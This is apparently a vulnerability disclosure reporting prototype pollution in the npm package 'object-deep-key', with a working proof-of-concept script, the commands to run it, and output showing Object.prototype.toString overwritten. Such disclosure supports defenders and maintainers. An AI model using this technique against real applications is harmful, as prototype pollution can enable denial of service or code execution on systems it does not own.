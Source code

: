 # Description

`object-deep-key` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const objDeepKey = require('object-deep-key').default

console.log(`Before: ${{}.toString}`)
objDeepKey(constructor.prototype, 'toString').set('Function prototype polluted')
console.log(`After: ${{}.toString}`)
```
2. Execute the following commands in the terminal:
```bash
npm i object-deep-key # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: function toString() { [native code] }
After: Function prototype polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

